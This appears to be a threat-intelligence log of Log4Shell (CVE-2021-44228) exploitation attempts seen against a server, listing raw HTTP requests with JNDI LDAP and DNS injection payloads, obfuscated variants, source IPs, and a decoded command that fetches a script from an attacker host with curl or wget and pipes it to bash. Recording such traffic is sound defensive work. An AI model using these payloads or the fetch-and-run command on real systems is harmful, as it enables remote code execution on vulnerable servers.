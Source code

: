 ```
GET / HTTP/1.1
Host: !!IP_ADDRESS!!
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/4ac61c12-0c8c-4552-95f0-dfa4053b4577}
Referer: ${jndi:ldap://log4shell.huntress.com:1389/4ac61c12-0c8c-4552-95f0-dfa4053b4577}
```

Source IPs:
- 36.72.216.81

-------------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Host: !!IP_ADDRESS!!
User-Agent: ${jndi:ldap://http80useragent.kryptoslogic-cve-2021-44228.com/http80useragent}
Accept: */*
Accept-Encoding: gzip
```

Kryptos scanners
Source IPs:
- 139.59.101.242

-----------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Authorization: Oauth ${jndi:ldap://45.83.193.150:1389/Exploit}
User-Agent: curl/7.58.0
Accept: */*
Host: !!IP_ADDRESS!!
```

Source IPs:
- 221.226.159.22
- 218.89.222.71
- 1.179.247.182

-----------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Authorization: Token ${jndi:ldap://45.83.193.150:1389/Exploit}
User-Agent: curl/7.58.0
Accept: */*
Host: !!IP_ADDRESS!!
```

Source IPs:
- 221.226.159.22
- 218.89.222.71
- 1.179.247.182

-----------------------------------------------------------------------------------------
```
GET / HTTP/1.1
Authorization: Basic ${jndi:ldap://45.83.193.150:1389/Exploit}
User-Agent: curl/7.58.0
Accept: */*
Host: !!IP_ADDRESS!!
```

Source IPs:
- 221.226.159.22
- 218.89.222.71
- 1.179.247.182

-----------------------------------------------------------------------------------------
```
GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1
Host: !!IP_ADDRESS!!
User-Agent: ${jndi:dns://45.83.64.1/securityscan-http80}
Referer: ${jndi:dns://45.83.64.1/securityscan-http80}
X-Api-Version: ${jndi:dns://45.83.64.1/securityscan-http80}
Accept-Encoding: gzip
```

Source IPs:
- 45.83.64.161

-----------------------------------------------------------------------------------------
```
GET /?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/!!BASE64_VALUE!!} HTTP/1.1
Host: !!IP_ADDRESS!!:80
User-Agent: ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://195.54.160.149:12344/Basic/Command/Base64/!!BASE64_VALUE!!}
Referer: ${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://195.54.160.149:12344/Basic/Command/Base64/!!BASE64_VALUE!!}
Accept-Encoding: gzip
Connection: close
```

Base64 value decodes to:

```bash
(curl -s 195.54.160.149:5874/!!IP_ADDRESS!!:80||wget -q -O- 195.54.160.149:5874/!!IP_ADDRESS!!:80)|bash
```

Source IPs:
- 195.54.160.149
